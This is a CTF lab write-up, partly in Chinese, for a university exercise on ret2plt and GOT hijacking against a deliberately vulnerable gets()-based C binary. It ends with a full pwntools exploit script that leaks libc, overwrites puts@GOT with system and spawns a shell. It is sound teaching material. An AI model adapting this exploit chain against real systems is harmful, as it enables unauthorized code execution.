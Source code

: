 ```yaml
---
title: Simple PWN 0x34 (2023 Lab - ret2plt)
tags: [eductf, CTF, PWN]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN 0x34 (2023 Lab - ret2plt)
<!-- more -->

## Background
Got Hijack / BoF

## Source code
```cpp
//gcc -no-pie -fno-stack-protector -z norelro ret2plt.c -o ret2plt
#include <stdio.h>
#include <stdlib.h>

int main(){
	char buf[20];
	setvbuf(stdout,0,2,0);
	printf("Try your best :");
	gets(buf);
	puts("boom !");	
}
```

## Recon
1. checksec + file
    ```bash
    $ checksec chal
    [*] '/mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_ret2plt/share/chal'
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    $ file chal
    chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7ed984819a3908eff455bfcf87716d0fb298fac, for GNU/Linux 3.2.0, not stripped
    ```
    首先知道這隻binary是動態link library，所以可想而知，rop gadget一定少的可憐，所以我們不太能夠直接像上一題一樣暴力開一個shell出來，程式也沒有幫我們開，讓我們可以直接跳過去
2. 還是有很明顯的BOF的漏洞，此時就可以嘗試類似got hijack的方式打看看
流程:
1. 首先我們要知道libc base address才能夠利用扣掉offset的方式跳到system的地方，但是程式中並沒有能夠直接leak base address給我們的東西，因此我們可以自己想辦法leak: ==ret2plt==
    ```
    pop rdi ret
    puts got address
    puts plt
    ```
    這三行的意思是把puts的got address，透過puts印出來給我們 -> puts(put自己的got address)
2. 有了puts的got address之後，就可以扣掉puts在libc的offset，就可以知道base address，然後我們可以知道system的確切address
    ```python
    # leak puts got address to calculate libc base address
    puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
    libc_base = puts_addr - libc.symbols['puts']
    libc.address = libc_base
    system_addr = libc.symbols['system']
    ```
3. 現在的問題有兩個，一個是我們要怎麼把==/bin/sh==送進去，因為如果直接看binary的gadget沒有`/bin/sh`或是`/sh`的string，不過我們可以直接用同樣的方法，把字串送進去
    ```python
    # fetch user input -> /bin/sh\x00
    pop_rdi_ret
    bss_addr
    gets_plt,
    ```
    此時他就會像使用者要輸入，並把我們的輸入丟到bss address
4. 另外一個問題就是我們要怎麼呼叫==system==，因為這個binary是動態的，代表一開始沒有link到system的話就不能直接呼叫，因此我們可以利用同樣的方法達到==got hijacking==
    ```python
    # fetch user input -> system address
    pop_rdi_ret
    puts_got
    gets_plt
    ```
    此時我們可以輸入system的address，經過這三行後我們就成功把puts got address換成system got address
5. 所有工具都準備好了，接下來只要呼叫puts就可以了，實際上就是呼叫system
    ```python
    # system('/bin/sh\x00')
    pop_rdi_ret
    bss_addr
    puts_plt
    ```

## Exploit - Ret2Plt(leak base address) + Got Hijack(call system)
```python
from pwn import *

r = process('./chal')
# r = remote('10.113.184.121', 10053)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.arch = 'amd64'

pop_rdi_ret = 0x0000000000401263
puts_got = 0x403368
puts_plt = 0x401070
gets_got = 0x403378
gets_plt = 0x401090
bss_addr = 0x403f00
payload = flat(
    # leak puts got address to calculate libc base address
    pop_rdi_ret,    puts_got,
    puts_plt,

    # fetch user input -> /bin/sh\x00
    pop_rdi_ret,    bss_addr,
    gets_plt,

    # fetch user input -> system address
    pop_rdi_ret,    puts_got,
    gets_plt,

    # system('/bin/sh\x00')
    pop_rdi_ret,    bss_addr,
    puts_plt
)
raw_input()
r.sendlineafter(b'Try your best :', b'a' * 0x28 + payload)
print(r.recvline())

puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
log.info(f"puts address = {hex(puts_addr)}")

libc_base = puts_addr - libc.symbols['puts']
libc.address = libc_base
system_addr = libc.symbols['system']
log.info(f'system address = {hex(system_addr)}')
r.sendline(b'/bin/sh\x00')
raw_input()
r.sendline(p64(libc.symbols['system']))

r.interactive()
```